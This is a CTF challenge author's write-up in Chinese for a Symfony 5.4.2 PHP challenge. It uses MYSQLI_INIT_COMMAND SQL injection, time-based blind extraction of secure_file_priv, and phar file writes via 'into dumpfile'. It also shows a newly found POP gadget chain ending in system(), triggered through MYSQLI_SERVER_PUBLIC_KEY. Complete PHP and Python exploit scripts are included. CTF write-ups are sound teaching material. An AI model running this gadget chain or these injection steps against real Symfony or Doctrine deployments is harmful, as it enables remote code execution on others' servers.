

本次TQLCTF算是Redbud第一次参与全国赛的命题和组织，所以想给大家出一道有趣新颖的题目。一直没什么idea，所以想着找个框架挖一挖链子算了，但是可能比较俗，所以结合了mysql写文件，并加了一个独特的phar反序列化触发点。

## 出题思路

选框架挖链子花了挺长时间，一些常见框架比如laravel、thinkphp等被挖烂了，最后发现Symfony5新版本似乎没啥链子，但是本人没有挖掘出最新版本RCE的链子，选了5.4.2版本挖了条链子。（测试中发现直接拿phpggc中Monolog的链子就能打，就把Monolog的依赖给删了）

众所周知mysql读写文件只能secure_file_path目录下进行，那如果这个目录不是常见路径就意味着无法写文件了么？显然不是，如果我们有注入之类的可以通过注入获取到这个目录，这道题目就是加了这个考点。

关于phar反序列化的触发点，参考了zsx这篇[https://blog.zsxsoft.com/post/38](https://blog.zsxsoft.com/post/38)，去翻了下php关于mysql相关源码，在`ext/mysqlnd/mysqlnd_auth.c`下有关caching_sha2_password认证的操作里找到了对`php_stream_open_wrapper`的调用。

将以上这三点结合起来，最终出了这道题，比赛中只有0ops战队成功解出。以下是完整题解。

## 题解

题目给了源码，是基于Symfony框架开发，版本是5.4.2。审计源码发现只有一个TestController：

```php
<?php

namespace App\Controller;

use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
use Symfony\Component\HttpFoundation\Response;
use Symfony\Component\Routing\Annotation\Route;
use Symfony\Component\HttpFoundation\Request;

class TestController extends AbstractController
{
    /**
     * @Route("/test", name="test")
     */
    public function index(Request $request): Response
    {
        $con = mysqli_init();
        $key = $request->query->get('key');
        $value = $request->query->get('value');

        if (is_numeric($key) && is_string($value)) {
            mysqli_options($con, $key, $value);
        }
        
        mysqli_options($con, MYSQLI_OPT_LOCAL_INFILE, 0);
        if (!mysqli_real_connect($con, "127.0.0.1", "ctf", "gmlsec123456", "mysql")) {
            $content = '数据库连接失败';
        } else {
            $content = '数据库连接成功';
        }

        mysqli_close($con);

        return new Response(
            $content,
            Response::HTTP_OK,
            ['content-type' => 'text/html']
        );
    }
}


```

可以控制一个mysqli_options 的选项，然后连接本地数据库。

### 执行任意SQL语句

查阅mysqli_options 函数的相关文档：


很明显发现可以设置建立 MySQL 连接之后要执行的 SQL 语句。

php 7的环境下打印下`MYSQLI_INIT_COMMAND`的值：

```bash
~  php -a
Interactive shell

php > echo MYSQLI_INIT_COMMAND;
3
php >
```

尝试 `/index.php/test?key=3&value=select%20sleep(3)`，延时成功。因为没有回显，可以采用时间盲注的方式获取数据。（经测试，`select if(1,(select exp(1000)),0)`这种通过是否报错进行布尔盲注的方式不可以）

显然flag肯定不在数据库里（可以通过时间盲注获取数据也会发现没有任何新创建的数据库和表）。现在我们可以执行一条mysql的命令，尝试堆叠发现无果，create database、insert、update数据失败，load_file读取/etc/passwd也是失败。这时猜想是否题目设置了 `secure_file_priv`， 尝试获取`secure_file_priv`目录。

平时我们经常使用的方式是 `show global variables like '%secure_file_priv%'`，现在没有回显，我们需要时间盲注的方式获取。secure_file_priv还可以通过`select @@global.secure_file_priv`进行获取：


可以通过时间盲注得到目录：`/tmp/53ca05a8a6854dc2cdceeeaf52671f27`

这个目录明显是故意设置，所以肯定这里是利用点。我们不知道这个目录下有什么文件，但是我们可以向这个目录任意写文件。Symfony 5.4.2 的版本并没有什么漏洞，所以通过文件包含getshell不太可能，我们可以自然想到可以通过写入phar文件，触发反序列化getshell。


要通过phar触发反序列化进行getshell，要有POP链和触发点。首先关注POP链，phpggc上最新的链子是 5.2 版本的，经过分析无法成功利用。将源码与 Symfony 5.4.2 的源码对比，发现去除了 Monolog 的依赖，Monolog的链子也利用不了，需要挖掘一条新的POP链。

### 挖掘POP链

寻找\_\_destruct方法，因为有一些类都存在 \_\_wakeup方法，所以剩下的也不多。剩下的类 \_\_destruct方法调用也很乱，所以尝试搜索 \_\_call 方法，看看有什么可以利用的。在vendor/symfony/cache/Traits/RedisProxy.php 定义的`RedisProxy`类存在\_\_call方法：

```php
    public function __call(string $method, array $args)
    {
        $this->ready ?: $this->ready = $this->initializer->__invoke($this->redis);

        return $this->redis->{$method}(...$args);
    }
```

我们可以调用任意类的 \_\_invoke 方法，并且参数可控。寻找可利用的 \_\_invoke，在vendor/doctrine/doctrine-bundle/Dbal/SchemaAssetsFilterManager.php定义的`SchemaAssetsFilterManager`类：

```php
    /** @param string|AbstractAsset $assetName */
    public function __invoke($assetName): bool
    {
        foreach ($this->schemaAssetFilters as $schemaAssetFilter) {
            if ($schemaAssetFilter($assetName) === false) {
                return false;
            }
        }

        return true;
    }
```

可以发现明显的动态函数调用，并且函数名和参数都可控。与之类似的vendor/symfony/console/Helper/Dumper.php 定义的`Dumper`类，这个更直接一些：

```php
    public function __invoke($var): string
    {
        return ($this->handler)($var);
    }
```

所以现在我们只需在 \_\_destruct 中找到任意一个可控变量对任意函数的调用即可，类似`$xxxx->xxxx()`，这应该不难寻找，在vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php中定义的`CacheAdapter`类：

```php
    public function __destruct()
    {
        $this->commit();
    }
```

跟进：


至此，getshell 的POP链已经完成。exp：

```php
<?php


//namespace Doctrine\Bundle\DoctrineBundle\Dbal {
//    class SchemaAssetsFilterManager
//    {
//        private $schemaAssetFilters;
//
//        public function __construct()
//        {
//            $this->schemaAssetFilters = array('system');
//        }
//    }
//}
namespace Symfony\Component\Console\Helper {
    class Dumper
    {
        private $handler;

        public function __construct()
        {
            $this->handler = 'system';
        }
    }
}

namespace Symfony\Component\Cache\Traits {
    class RedisProxy
    {
        private $redis;
        private $initializer;
        private $ready = false;

        public function __construct()
        {
            $this->redis = 'id';
            $this->initializer = new \Symfony\Component\Console\Helper\Dumper();
//            $this->initializer = new \Doctrine\Bundle\DoctrineBundle\Dbal\SchemaAssetsFilterManager();
        }
    }
}

namespace Doctrine\Common\Cache\Psr6 {
    class CacheAdapter
    {
        private $deferredItems;

        public function __construct()
        {
            $this->deferredItems = array(new \Symfony\Component\Cache\Traits\RedisProxy());
        }
    }
}


namespace {
    $a = new Doctrine\Common\Cache\Psr6\CacheAdapter();
    $phar = new Phar('test.phar');
    $phar->stopBuffering();
    $phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>");
    $phar->addFromString('test.txt', 'test');
    $phar->setMetadata($a);
    $phar->stopBuffering();
}
```

本地测试该POP链可用。

### 寻找触发点

现在只剩触发点，我们可控的就只有一对key和value，查看其他可以设置的选项，发现`MYSQLI_SERVER_PUBLIC_KEY`这个选项涉及文件操作，这个选项指定SHA-256 认证模式下，要使用的 RSA 公钥文件。

mysql8.0 之前的版本中默认的身份验证方式是mysql_native_password, 而在mysql8.0之后变为了`caching_sha2_password`。caching_sha2_password实现了SHA-256 认证，并且在服务器端使用缓存以获得更好的性能。官方文档：[https://dev.mysql.com/doc/refman/8.0/en/caching-sha2-pluggable-authentication.html](https://dev.mysql.com/doc/refman/8.0/en/caching-sha2-pluggable-authentication.html)

查阅文档可以发现，客户端有两种方式指定服务端的公钥：一种是从服务端请求公钥，然后服务端将公钥发松给客户端；另外一种是客户端本地指定服务端公钥的路径：


上面提到的`MYSQLI_SERVER_PUBLIC_KEY`选项便是指定服务端公钥的路径。

那么既然这里存在读取文件的可能，是否可以触发phar反序列化呢？查阅PHP源码，在ext/mysqlnd/mysqlnd_auth.c 中可以找到`mysqlnd_caching_sha2_get_key`函数的实现：



可以看到，调用了php_stream_open_wrapper，因此可以来触发phar反序列化。

现在过程很明确：可以生成phar文件，通过mysql写入目录，再通过`MYSQLI_SERVER_PUBLIC_KEY`触发反序列化执行命令。

但是经过尝试发现最终触发失败，回显依然是数据库连接成功。这是因为caching_sha2_password认证方式下服务器端会使用缓存，查阅资料发现缓存存储在内存中：[https://dba.stackexchange.com/questions/218190/where-is-the-cache-for-the-mysql-caching-sha2-password-auth-plugin-stored](https://dba.stackexchange.com/questions/218190/where-is-the-cache-for-the-mysql-caching-sha2-password-auth-plugin-stored), `FLUSH PRIVILEGES`即可。

最终exp：

```php
import requests, string, random, os 

url = "http://127.0.0.1:7001"


def req(key, value):
    resp = requests.get(url + "/index.php/test", params={'key': key, 'value': value})
    return resp


def get_secure_file_priv():
    char_list = "_/" + string.ascii_letters + string.digits
    template = "select if((select substr(@@global.secure_file_priv,%s,1)='%s'),sleep(2),1)"
    data = ''
    for i in range(1, 100):
        flag = False
        for c in char_list:
            resp = req('3', template % (i, c))
            if resp.elapsed.seconds > 1.5:
                data += c
                flag = True
                print(data)
                break
        if not flag:
            print("end!")
            return data


def exp(secure_file_path):
    filename = "".join(random.sample(string.ascii_letters, 6)) + '.phar'
    file = os.path.join(secure_file_path, filename)

    # write phar file
    hex_data = open("test.phar", "rb").read().hex()
    command = "select 0x{} into dumpfile '{}'".format(hex_data, file)
    req('3', command)

    # check file exists
    command = "select if((ISNULL(load_file('{}'))),sleep(2),1)".format(file)
    if req('3', command).elapsed.seconds > 1.5:
        print("file write fail!")
        exit()

    # clean the cache
    req('3',"FLUSH PRIVILEGES")

    # trigger unserialize
    resp = req('35', 'phar://' + file)
    print(resp.text)


if __name__ == '__main__':
    # secure_file_path = get_secure_file_priv()
    secure_file_path = '/tmp/86e9025cfd3453f95db26b327521ff59/'
    exp(secure_file_path)

```

## 总结

题目出完后预估难度中上，但没想到把大家都卡住了… 可能这个题很难一眼看出整个解题的思路，所以放了hint避免选手走歪了。出题不易，耗费了将近一周的时间，只希望大家玩的开心。

